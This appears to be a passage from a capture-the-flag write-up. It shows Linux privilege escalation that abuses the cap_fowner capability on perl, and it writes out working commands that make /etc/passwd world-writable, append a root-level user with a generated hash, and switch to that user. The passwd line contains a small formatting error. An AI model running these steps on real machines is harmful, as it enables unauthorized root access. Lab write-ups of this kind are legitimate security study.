 Linpeas prompt an interesting line:
```bash
/usr/bin/perl = cap_fowner+ep
```

A capability fowner (we can change the permissions) we can exploit it like this:
```bash
perl -e 'chmod 0777, "/etc/passwd"'

openssl passwd -1 -salt usertest test #we generate a new passowrd for the new root user in /etc/passwd

echo 'usertest:$1$usertest$ILAmk52t3T8sU/7Ki7dKa1:0:0/root:/bin/bash' >> /etc/passwd

su usertest
```
Inser the password and we're root, the last flag is our.
